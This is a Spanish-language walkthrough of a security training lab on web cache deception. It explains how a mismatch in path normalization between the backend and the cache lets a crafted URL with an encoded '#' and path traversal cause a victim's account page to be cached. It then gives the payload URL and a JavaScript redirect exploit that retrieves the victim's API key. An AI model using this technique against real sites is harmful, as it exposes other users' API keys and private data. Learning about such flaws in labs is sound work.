









# 🌐 Web Cache Deception mediante normalización en el servidor de caché

## 📄 Descripción del laboratorio

La página:

```
/my-account
```

muestra la **API key del usuario autenticado**.

En este laboratorio existe una discrepancia crítica entre:

* El **servidor de aplicación**
* El **sistema de caché frontal**

Ambos manejan de forma distinta la **decodificación y normalización de rutas**, lo que permite engañar a la caché para que almacene contenido dinámico sensible.

El objetivo del laboratorio es:

* Construir una URL que el backend trate como `/my-account`
* Conseguir que la caché la interprete como un recurso estático bajo `/resources/`
* Forzar a **Carlos** a visitarla estando autenticado
* Recuperar su **API key** desde la caché

Credenciales proporcionadas:

```
wiener:peter
```

 

## 📚 Teoría

En esta variante avanzada de **Web Cache Deception**, el rol de la normalización se invierte respecto al laboratorio anterior.

### 📌 Discrepancia de comportamiento

➡️ **Servidor de origen**

* No decodifica ni resuelve ciertas secuencias codificadas.
* Ignora completamente el **fragment identifier (`#`)**.
* Solo procesa la parte de la URL **previa al `#`**.

➡️ **Sistema de caché**

* Sí decodifica y normaliza rutas.
* Resuelve secuencias de **path traversal**.
* Utiliza la **URL completa para construir la clave de caché**.

### 📌 Delimitador clave: `#`

El carácter:

```
#
```

tiene un comportamiento especial:

* No se envía al backend como parte de la ruta lógica.
* Pero puede formar parte de la URL que la caché utiliza internamente.

Al combinar:

* `#`
* path traversal codificado (`%2f%2e%2e%2f`)

se consigue que:

* El **backend vea únicamente `/my-account`**
* La **caché normalice la ruta hacia algo bajo `/resources/`**

Esto permite almacenar **contenido dinámico sensible** como si fuera contenido estático.

 

## 📝 Práctica

### 1️⃣ Análisis inicial

Iniciamos sesión con las credenciales:

```
wiener:peter
```

Accedemos a:

```
/my-account
```

Observamos que la página muestra **nuestra API key**.


 

### 2️⃣ Identificar delimitadores válidos

Interceptamos la petición:

```http
GET /my-account
```

y la enviamos a **Burp Repeater**.

Probamos fuerza bruta de delimitadores utilizando Intruder con la posición:

```
/my-account$$
```

<br>

Resultado:

* Los delimitadores `?` y `#` devuelven **200 OK**.
* El servidor sigue procesando la ruta como:

```
/my-account
```


 

### 3️⃣ Verificar comportamiento de la caché

Probamos distintas variantes:

```
/my-account#test
/my-account?test
```

<br>

Resultado:

* La caché **no se activa**.

Probamos también traversal directo:

```
/my-account/../my-account?test
```

Resultado:

* Tampoco se cachea.

Esto indica que necesitamos **activar las reglas de caché estática**.

 

### 4️⃣ Identificar el prefijo cacheado

Revisando el **HTTP history**, observamos que las rutas bajo:

```
/resources/
```

devuelven cabeceras como:

```http
X-Cache: HIT
```

Conclusión:

El prefijo:

```
/resources/
```

activa reglas de **cacheo para contenido estático**.


 

### 5️⃣ Combinar `#` con path traversal

Probamos la siguiente ruta manipulada:

```
/my-account#/../resources
```

<br>

Comportamiento observado:

* El **backend ignora todo lo que aparece tras `#`** y procesa:

```
/my-account
```

* La **caché mantiene la URL completa** y normaliza `../resources`.

Resultado:

La respuesta se cachea **como si fuera un recurso bajo `/resources/`**.

Para evitar colisiones de caché añadimos un parámetro:

```
/my-account#/../resources?pwned
```

Para mayor fiabilidad codificamos completamente el traversal:

```
/my-account%23%2f%2e%2e%2fresources?pwned
```

 

### 6️⃣ Explotar la vulnerabilidad contra Carlos

Creamos un exploit en el **Exploit Server** que redirija automáticamente a la víctima.

```html
<script>
document.location = "https://ID-LAB.web-security-academy.net/my-account%23%2f%2e%2e%2fresources?pwned";
</script>
```

<br>

Guardamos el exploit con **Store** y ejecutamos **Deliver exploit to victim**.

 

### 7️⃣  Recuperar la respuesta cacheada

Cuando **Carlos** visita la URL manipulada:

1. El backend procesa únicamente:

```
/my-account
```

2. Devuelve su página personalizada con la **API key**.
3. La caché normaliza la URL y la guarda bajo una ruta equivalente a `/resources/...`.

Ahora accedemos directamente a:

```
https://ID-LAB.web-security-academy.net/my-account%23%2f%2e%2e%2fresources?pwned
```
<br>

La respuesta cacheada corresponde a **Carlos** y contiene su **API key**.

Copiamos la clave y la enviamos como solución.

<br>

